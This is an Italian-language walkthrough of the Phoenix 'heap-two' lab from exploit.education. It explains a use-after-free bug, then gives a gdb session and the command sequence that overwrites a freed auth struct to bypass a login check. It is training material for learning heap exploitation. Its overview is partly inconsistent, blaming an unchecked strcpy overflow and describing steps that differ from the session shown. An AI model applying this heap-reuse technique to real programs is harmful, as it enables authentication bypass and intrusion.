 ### Descrizione del Codice

Il programma `heap_two.c` esplora l'importanza di inizializzare esplicitamente la memoria allocata e cosa può accadere quando i valori dei puntatori diventano obsoleti.

### Funzionamento del Programma

1. Il programma alloca memoria per una struttura `auth` e una stringa `service`.
2. Copia gli argomenti della riga di comando nei blocchi di memoria allocati.
3. Libera i blocchi di memoria allocati.
4. Stampa un messaggio di errore.

### Problema di Sicurezza

Il problema di sicurezza risiede nell'uso della funzione `strcpy` senza controllare la dimensione, il che può causare un overflow del buffer. Questo può essere sfruttato per manipolare la gestione della memoria heap.

### Exploit

L'exploit sfrutta una vulnerabilità di tipo use-after-free (UAF). Se inseriamo "auth AAAA", il codice alloca memoria e la memorizza in `auth`, quindi copia il nome `AAAA` in `auth->name`. Per effettuare il login, `auth` deve puntare a un indirizzo di memoria e `auth->auth` non deve essere zero. Non possiamo sovrascrivere `name` poiché c'è un controllo sulla lunghezza con `strlen`.

Il bug qui è che `reset` libera la memoria allocata per `auth`, ma `auth` continua a puntare a quella posizione di memoria, che potrebbe contenere qualsiasi cosa. In questo caso, `auth` è chiamato un puntatore pendente.

La funzione `strdup` utilizza `malloc` per allocare memoria per una nuova stringa. Se c'è un blocco di memoria precedentemente liberato e abbastanza grande per soddisfare la richiesta, `malloc` utilizzerà quel blocco di memoria liberato per la nuova allocazione.

Quindi, se allochiamo memoria per `auth`, liberiamo quella memoria e poi inseriamo `service`, la funzione `strdup` utilizzerà l'indirizzo di memoria precedentemente liberato di `auth`, e ora possiamo scrivere qualsiasi cosa in `auth->auth` (stiamo scrivendo in `service`, ma `auth` punta già a quell'indirizzo).

L'obiettivo qui è solo cambiare `auth->auth` a qualsiasi valore, quindi useremo solo alcuni dati casuali.

### Esempio di Exploit

Il seguente esempio mostra come sfruttare la vulnerabilità:

```sh
$ gdb -q /opt/phoenix/i486/heap-two
Reading symbols from /opt/phoenix/i486/heap-two...(no debugging symbols found)...done.

gef➤  disassemble main
Dump of assembler code for function main:
.....
   0x080487e4 <+367>:	mov    eax,ds:0x8049adc
   0x080487e9 <+372>:	mov    eax,DWORD PTR [eax+0x20]
   0x080487ec <+375>:	test   eax,eax
.....

gef➤  b *0x080487e9
Breakpoint 1 at 0x80487e9

gef➤  r
Starting program: /opt/phoenix/i486/heap-two 

Welcome to phoenix/heap-two, brought to you by https://exploit.education
[ auth = 0, service = 0 ]
auth AAAA
[ auth = 0x8049af0, service = 0 ]
reset 
[ auth = 0x8049af0, service = 0 ]
serviceAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
[ auth = 0x8049af0, service = 0x8049af0 ]
login 

Breakpoint 1, 0x080487e9 in main ()

gef➤  x/xw $eax+0x20
0x8049b10:	0x42424242		# valore di auth->auth

gef➤  c
Continuing.
you have logged in already!
[ auth = 0x8049af0, service = 0x8049af0 ]

### Soluzione

$ /opt/phoenix/i486/heap-two 
Welcome to phoenix/heap-two, brought to you by https://exploit.education
[ auth = 0, service = 0 ]
auth AAAA
[ auth = 0x8049af0, service = 0 ]
reset 
[ auth = 0x8049af0, service = 0 ]
serviceAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
[ auth = 0x8049af0, service = 0x8049af0 ]
login 
you have logged in already!
